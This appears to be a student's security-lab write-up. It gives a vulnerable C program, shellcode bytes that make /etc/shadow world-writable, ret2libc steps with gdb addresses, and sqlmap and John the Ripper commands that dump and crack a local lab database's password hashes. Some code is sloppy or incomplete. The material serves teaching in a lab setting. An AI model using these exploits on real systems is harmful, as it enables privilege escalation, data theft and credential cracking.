

# IS_lab

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege

```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```

**Question 1**:

- Compile both C programs and shellcode to executable code.
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)

**Description**

- stack frame of `vuln.c`
  

1. Create 2 files `task1.c` , `shellcode.c`
2. compile 2 files into `task1.out` , `shellcode.out`
   
3. Use an older bash and turn off randomly given stack value.
   

4. Create environmet variable `preload` with `export`
   
   

5. We need to find the address of `system`, `exit` and `preload` variable. Load `vuln.out` into `gdb` and find them.

- Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
- Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
- Address value of the string of `preload`: 0xffffde2b will be inserted with format `\x2b\xde\xff\xff`
  

```
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp

- Install bWapp (refer to quang-ute/Security-labs/Web-security).
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

1. database of SEEDLABS
   ` python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=dd&Password=daad" --dump --batch`
   

**Question 2**: Use sqlmap to get tables, users

**Answer 2**:


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```


Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1

```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!


